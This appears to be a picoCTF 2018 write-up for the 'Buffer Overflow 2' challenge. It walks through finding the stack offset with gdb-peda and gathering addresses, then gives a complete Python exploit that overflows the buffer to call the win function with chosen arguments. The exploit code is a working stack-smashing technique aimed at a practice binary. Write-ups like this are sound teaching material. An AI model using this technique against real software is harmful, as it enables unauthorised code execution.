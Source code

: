 ```

we create a random strings to overflow with gdb-peda 

![binary_bof_2](https://github.com/SkyBulk/picoCTF2018/blob/master/images/binary_bof_2_2.png)


we notice our offset is between 107 and 111, and we tried to check with gdb-peda 

![binary_bof_2](https://github.com/SkyBulk/picoCTF2018/blob/master/images/binary_bof_2_3.png)

we GOT IT.. 

so far we have win address, args 1 , and args 2 from source. So we tried to code the vuln to exploit.py , we ran gdb-peda to search rop gadgets as below

![binary_bof_2](https://github.com/SkyBulk/picoCTF2018/blob/master/images/binary_bof_2_4.png)


YAY !!! we got RET address , and the last one , we need the exit address as below:

![binary_bof_2](https://github.com/SkyBulk/picoCTF2018/blob/master/images/binary_bof_2_5.png)


So we have so far win address + RET + args 1 + args 2 + exit. it's time to code it

```

#!/usr/bin/python
""" Buffer Overflow 2 From Pico CTF 2018"""
import struct
from subprocess import Popen, PIPE, STDOUT

payload = ''
payload += '\x41'*112 #nopsled
payload +=  struct.pack('<L', 0x080485cb) #win address
payload +=  struct.pack('<L', 0x080483f6) #RET
payload +=  struct.pack('<L', 0xDEADBEEF) #arg 1
payload +=  struct.pack('<L', 0xDEADC0DE) #arg 2
payload +=  struct.pack('<L', 0x8048470) #exit address 
filename = Popen(['./vuln'], stdin=PIPE)
filename.stdin.write(payload)

```




***

#### Thank you for the great reading.
